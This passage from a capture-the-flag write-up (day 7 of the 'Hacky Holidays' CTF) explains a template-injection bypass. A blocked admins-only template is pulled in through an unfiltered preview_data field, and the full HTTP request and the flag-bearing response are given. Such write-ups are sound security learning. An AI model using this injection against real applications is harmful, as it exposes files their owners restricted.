 ```HTTP
Connection: close
Content-Length: 64

You do not have access to the file 38dhs_admins_only_header.html
```

prevew_markup contains our campaign markup and preview_data contains a json with name (from the form) and email

so there seems to be some kind of blacklist on that template file on preview_markup parameter

but we still can put anything in preveiew_data, it's not blacklisted there and we call it from preview_markup
by adding {{template:38dhs_admins_only_header.html}} at name for example and we call name as a variable we get the flag

```HTTP
POST /hate-mail-generator/new/preview HTTP/1.1
Host: hackyholidays.h1ctf.com
Content-Length: 123
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

preview_markup=%7B%7Bname%7D%7D&preview_data={"name":"{{template:38dhs_admins_only_header.html}}","email":"alice@test.com"}


HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 21 Dec 2020 20:20:27 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 339

<html>
<body>
<center>
    <table width="700">
        <tr>
            <td height="80" width="700" style="background-color: #64d23b;color:#FFF" align="center">Grinch Network Admins Only</td>
        </tr>
        <tr>
            <td style="padding:20px 10px 20px 10px">
                <h4>flag{5bee8cf2-acf2-4a08-a35f-b48d5e979fdd}</h4>
```

that's it for day7

----------------------------------------------------------------
